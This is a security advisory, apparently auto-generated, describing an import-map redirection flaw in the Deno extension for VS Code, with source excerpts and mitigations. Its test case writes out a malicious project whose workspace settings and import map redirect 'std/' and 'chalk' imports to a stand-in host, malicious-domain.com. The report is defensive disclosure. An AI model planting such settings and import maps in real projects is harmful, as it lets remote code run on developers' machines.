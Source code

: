 # Vulnerabilities in Deno for Visual Studio Code

## Import Map Redirection Attack

### Description
A malicious actor can create a project with a custom import map that redirects legitimate-looking imports to attacker-controlled code. When a user with the Deno extension enabled opens this project, the custom import map is applied without any explicit confirmation. When Deno code is executed, the imports are resolved using the attacker-controlled import map, resulting in loading and executing malicious code.

Step by step:
1. Attacker creates a project containing:
   - A malicious import map (e.g., `import_map.json`) that redirects standard or popular module imports to attacker-controlled URLs
   - A workspace configuration (`.vscode/settings.json`) with `"deno.enable": true` and `"deno.importMap": "./import_map.json"`
   - JavaScript/TypeScript files that import modules which appear legitimate
2. User clones/downloads and opens the project in VS Code
3. The Deno extension automatically loads the workspace settings
4. When the user runs or tests the code (or when cache-on-save is enabled), Deno uses the malicious import map to resolve imports
5. The attacker's code is downloaded and executed in the user's environment

### Impact
Critical. This attack could lead to arbitrary code execution in the user's environment. The malicious code would run with the user's permissions and could:
- Access local files accessible to the user
- Exfiltrate sensitive data
- Install malware or backdoors
- Modify project files or other accessible files

### Vulnerability Rank
High

### Currently Implemented Mitigations
The extension does show a warning when enabling import suggestions from untrusted hosts (in the `createRegistryStateHandler` function), but this does not apply to import maps themselves.

### Missing Mitigations
1. The extension should warn users when a project tries to set a custom import map in workspace settings
2. The extension could implement a trusted project mechanism to prevent automatically loading potentially dangerous settings from untrusted projects
3. Import maps could be restricted to only load from trusted domains by default

### Preconditions
1. User must have the Deno extension for VS Code installed
2. User must open a project containing a malicious import map configuration
3. User must run Deno code or have cache-on-save enabled

### Source Code Analysis
The vulnerability exists in several parts of the codebase:

1. In `client/src/debug_config_provider.ts`, the extension reads the import map configuration and passes it to Deno:
```typescript
#getAdditionalRuntimeArgs() {
  const args: string[] = [];
  const settings = this.#extensionContext.clientOptions.initializationOptions();
  // ...
  if (settings.importMap) {
    args.push("--import-map");
    args.push(settings.importMap.trim());
  }
  // ...
  return args;
}
```

2. In `client/src/extension.ts`, the extension loads configuration from workspace settings without validation:
```typescript
initializationOptions: () => {
  const denoConfiguration = vscode.workspace.getConfiguration().get(
    EXTENSION_NS,
  ) as Record<string, unknown>;
  commands.transformDenoConfiguration(extensionContext, denoConfiguration);
  return {
    ...denoConfiguration,
    // ...
  } as object;
},
```

3. This configuration is then used when executing Deno commands and tasks, as seen in `client/src/tasks.ts` and `client/src/commands.ts`.

The critical issue is that the import map value comes directly from workspace settings without validation or user prompt. As VS Code automatically applies workspace settings when opening a project, a malicious project can define a dangerous import map that will be used without the user's knowledge.

### Security Test Case
1. Create a `malicious_project` directory containing:
   ```
   malicious_project/
   ├── .vscode/
   │   └── settings.json
   ├── import_map.json
   └── app.ts
   ```

2. In `.vscode/settings.json`, add:
   ```json
   {
     "deno.enable": true,
     "deno.importMap": "./import_map.json",
     "deno.cacheOnSave": true
   }
   ```

3. In `import_map.json`, create a redirection:
   ```json
   {
     "imports": {
       "std/": "https://malicious-domain.com/fake-std-lib/",
       "chalk": "https://malicious-domain.com/fake-chalk.js"
     }
   }
   ```

4. In `app.ts`, add code that uses the redirected imports:
   ```typescript
   import { bold } from "chalk";
   import { log } from "std/log/mod.ts";

   log.info(bold("Loading secure application..."));
   // The rest of the seemingly legitimate application
   ```

5. Set up a server at `malicious-domain.com` that serves malicious code at the imported paths

6. When a user opens this project in VS Code:
   - The Deno extension sees the workspace settings and enables Deno
   - The import map configuration is applied without warning
   - When the file is saved, cache-on-save tries to cache the imports
   - The malicious code from `malicious-domain.com` is downloaded and executed
   - The attacker's code runs with the user's permissions

The user would have no indication that the imports were redirected to malicious sources, demonstrating a complete attack path.
